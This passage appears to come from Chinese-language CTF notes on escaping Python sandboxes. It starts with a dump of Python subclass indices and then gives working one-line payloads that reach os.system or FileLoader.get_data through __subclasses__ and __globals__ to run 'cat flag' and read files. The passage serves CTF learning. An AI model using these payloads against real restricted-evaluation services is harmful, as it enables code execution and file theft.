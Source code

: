     (156, <class 'itertools.filterfalse'>)
    (157, <class 'itertools.count'>)
    (158, <class 'itertools.zip_longest'>)
    (159, <class 'itertools.permutations'>)
    (160, <class 'itertools.product'>)
    (161, <class 'itertools.repeat'>)
    (162, <class 'itertools.groupby'>)
    (163, <class 'itertools._grouper'>)
    (164, <class 'itertools._tee'>)
    (165, <class 'itertools._tee_dataobject'>)
    (166, <class 'reprlib.Repr'>)
    (167, <class 'collections.deque'>)
    (168, <class '_collections._deque_iterator'>)
    (169, <class '_collections._deque_reverse_iterator'>)
    (170, <class '_collections._tuplegetter'>)
    (171, <class 'collections._Link'>)
    (172, <class 'functools.partial'>)
    (173, <class 'functools._lru_cache_wrapper'>)
    (174, <class 'functools.partialmethod'>)
    (175, <class 'functools.singledispatchmethod'>)
    (176, <class 'functools.cached_property'>)
    (177, <class 'contextlib.ContextDecorator'>)
    (178, <class 'contextlib._GeneratorContextManagerBase'>)
    (179, <class 'contextlib._BaseExitStack'>)
    (180, <class 'rlcompleter.Completer'>)
    ```
    

#### 搞事

可以尝试从某些类的 `__init__` 里面搞到 `__globals__` ，比如：

```python
[].__class__.__base__.__subclasses__()[-2].__init__.__globals__['sys'].modules['os'].system("cat flag")
```

也可以利用子类里面的危险类：

```python
(37, <class 'builtin_function_or_method'>)
(94, <class '_frozen_importlib_external.FileLoader'>)
(132, <class 'os._wrap_close'>)
```

比如：

```python
[].__class__.__base__.__subclasses__()[94].get_data("", "flag")
[].__class__.__base__.__subclasses__()[132].close.__globals__["system"]("cat flag")
```

python2 里还有 file 可以直接 open

### 绕过 AST 检测
